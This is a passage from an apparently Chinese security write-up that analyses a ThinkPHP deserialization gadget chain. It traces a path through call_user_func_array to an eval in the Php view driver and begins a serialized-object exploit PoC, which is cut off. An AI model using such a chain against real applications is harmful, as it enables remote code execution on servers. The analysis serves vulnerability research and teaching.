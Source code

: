 ```php
                break;
            case 'token':
                $result = $this->token($value, '__token__', $data);
                break;
            default:
                if (isset($this->type[$rule])) {
                    // 注册的验证规则
                    $result = call_user_func_array($this->type[$rule], [$value]);
                } elseif (function_exists('ctype_' . $rule)) {
                    // ctype验证规则
                    $ctypeFun = 'ctype_' . $rule;
                    $result   = $ctypeFun($value);
                } elseif (isset($this->filter[$rule])) {
                    // Filter_var验证规则
                    $result = $this->filter($value, $this->filter[$rule]);
                } else {
                    // 正则验证
                    $result = $this->regex($value, $rule);
                }
        }

        return $result;
    }
```

这里的`$value`是原本的`$domain`，`$rule`是`getDomainBind` 这个代码块之前刚说过为什么

所以`Switch`选择语句进入`default`

这里还是`call_user_func_array`导致的命令执行，`$result = call_user_func_array($this->type[$rule], [$value])`

`$this->type[$rule]`相当于`$this->type['getDomainBind']`，也是我们可以控制的属性，然后去调用**任意类的任意方法**，参数是之前的`$domain`

然后就找可以执行命令的函数去呗，在`vendor\topthink\framework\src\think\view\driver\Php.php`下找到了一个display方法

```php
public function display(string $content, array $data = []): void
{
    $this->content = $content;

    extract($data, EXTR_OVERWRITE);
    eval('?>' . $this->content);
}
```

现在就可以实现任意代码执行了

和上面的exp一样，还是要注意model是抽象类，要找一个子类进行实例化，这里还写了一个`__construct`的嵌套，看起来更让人舒适

```php
<?php

namespace think {

    use think\route\Url;

    abstract class Model
    {
        private $lazySave;
        private $exists;
        protected $withEvent;
        protected $table;
        private $data;
        private $force;
        public function __construct()
        {
        //一开始到找__toString的部分
            $this->lazySave = true;
```